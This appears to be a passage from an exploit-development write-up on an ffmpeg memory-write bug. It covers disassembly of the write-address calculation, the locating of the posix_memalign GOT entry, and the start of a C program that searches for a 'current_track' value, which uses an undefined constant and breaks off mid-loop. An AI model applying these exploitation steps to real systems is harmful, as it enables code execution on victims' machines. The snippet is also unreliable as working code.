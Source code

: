In the author says the algorithm is as such:

```
 edx + ((ebx + ebx * 4) << 2) + 0x10 = destination address of write operation
```

Ours might look a bit different if you compiled ffmpeg as a 64 bit binary, let's dissect the asm:

```
0x0046171e      4863ca         movsxd rcx, edx
0x00461721      418b742e0c     mov esi, dword [r14 + rbp + 0xc] ; [0xc:4]=-1 ; 12
0x00461726      488b7c2408     mov rdi, qword [rsp + 8]    ; [0x8:8]=-1 ; 8
0x0046172b      488d0c89       lea rcx, [rcx + rcx*4]
0x0046172f      83c330         add ebx, 0x30               ; '0'
0x00461732      4c8d2c8d0000.  lea r13, [rcx*4]
0x0046173a      48894c2410     mov qword [rsp + 0x10], rcx
0x0046173f      4c01e8         add rax, r13                ; 'o'
0x00461742      897010         mov dword [rax + 0x10], esi
```

As we begin edx is our current track. `movsxd` extends our 32 bit value to a 64 bit value so 0xffffffff becomes 0xffffffffffffffff

At 0x0046172b we see `rcx = rcx + rcx * 4`, then at 0x00461732 `r13 = rcx * 4` once again.

Thus we have `r13 = (rcx + rcx * 4) * 4` or the equivalent: `r13 = (rcx + rcx * 4) << 2` as the author wrote (i missed a detail here! there is a trailing + 0x10 at the end! i will talk more about this later.).

## verifying exploitability

The author suggests using a global offset table (GOT) overwrite as an exploit tactic, specifically the next function call which is dynamically linked is a call to memalign.

I decided I wanted to 1up [mgeeky's exploit](https://gist.github.com/mgeeky/dfa1bf2e7ee2d27864b137186838a872) and write one with a DEP bypass along with the ASLR bypass. In order to bypass ASLR we must use a 32 bit binary unless we use an information leak, let's leave that task for another time. First I attempt to write 0xffffffff to the memalign GOT entry.

The memalign GOT entry can be found with the following command:

```
$ file ./ffmpeg
./ffmpeg: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=fd2c79851e74389d11c9bec02388b0e47ffb6881, not stripped
$ readelf --relocs ./ffmpeg | grep -i memalign
084ef134  00004807 R_386_JUMP_SLOT   00000000   posix_memalign@GLIBC_2.2
```

Using the code from the book to find the correct value for `current_track` I tweaked it a little and came up with the following:

```c
#include <stdio.h>

// GOT entry address of memalign()
#define MEMALIGN_GOT_ADDR       0x084ef134

// Min and max value for 'current_track'
#define SEARCH_START            0x80000000
#define SEARCH_END              0xFFFFFFFF

int main() {
    unsigned int a, b = 0;

    for (a = SEARCH_START; a < SEARCH_END; a++) {
        b = (a * 20);
        if (b == TEST_ADDR) {
            printf("Value for 'current_track': %08x\n", a);
```